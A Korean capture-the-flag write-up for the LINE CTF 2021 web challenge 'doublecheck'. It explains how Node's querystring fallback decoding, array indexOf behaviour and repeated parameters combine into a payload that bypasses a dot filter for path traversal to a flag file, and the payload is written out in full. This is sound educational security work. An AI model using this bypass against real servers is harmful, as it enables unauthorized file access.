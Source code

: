 ```yaml
---
title: ["[LINE CTF 2021 - web] doublecheck"]
date: 2025-01-06 09:00:00 +0900
categories: [writeup, ctf]
tags: [web, node, querystring, path traversal]
---
```


```javascript
app.post('/', function (req, res, next) {
  const body = req.body
  if (typeof body !== 'string') return next(createError(400))

  if (validate(body)) return next(createError(403))
  const { p } = querystring.parse(body)
  if (validate(p)) return next(createError(403))

  try {
    http.get(`http://localhost:${port}/api/vote/` + encodeURI(p), r => {
    // ...
}

// ...

function validate (str) {
  return str.indexOf('.') > -1 || str.indexOf('%2e') > -1 || str.indexOf('%2E') > -1
}
```

취약점이 발생하는 코드의 핵심 부분이다.  
문제의 목표는 `querystring.parse()`를 하기 전과 후 모두 `validate()`함수를 통과해야 하며,  
`encodeURI(p)`의 값이 `../../../flag`가 되어야 한다.  

## QueryString 모듈의 디코딩 과정
```
입력 → querystring.parse()
→ querystring.unescape (기본값)
   → decodeURIComponent 시도
      → 실패하면 unescapeBuffer로 fallback
         → uint8 Buffer로 처리
```

### unescapeBuffer 동작방식
```
// 정상적인 동작방식
querystring.parse('p=\uac2e')  // 갮

// unescapeBuffer 동작방식
querystring.parse('p=%ff\uac2e') // �. (Buffer 처리 후, 마지막 바이트인 '2e'만 남음)
```

## indexOf 함수의 취약점
```
['../', '../../'].indexOf('.') // -1
```

배열에 대한 indexOf는 정확히 일치하는 요소를 찾으므로, `.`을 포함하는 값은 찾지 않는다.  

## querystring.parse의 동작방식
`foo=bar&abc=xyz&abc=123`는 아래와 같이 파싱된다.
```
{
  foo: 'bar',
  abc: ['xyz', '123']
}
```

## 페이로드 구성
위의 방법을 모두 조합하여 최종 페이로드를 구성할 수 있다.  

`p=1&p=%ff/갮갮/갮갮/갮갮/flag`를 인자로 준다면 아래와 같이 동작한다.

```
1. 첫번째 validate 함수 통과 (직접적인 '.' 없음)
2. querystring.parse 처리
    → decodeURICompenent 에러
    → unescapeBuffer로 fallback
    → uint8 처리로 2e 반환
    ['1', '%ff/갮갮/갮갮/갮갮/flag'] → ['1', '%ff/../../../flag']
3. 두번째 validate 함수는 배열에서 '.' 요소를 찾을 수 없어서 통과
4. encodeURI에서 인자로 배열이 들어가면 반점으로 구분한다.
    1,%ff/../../../flag
```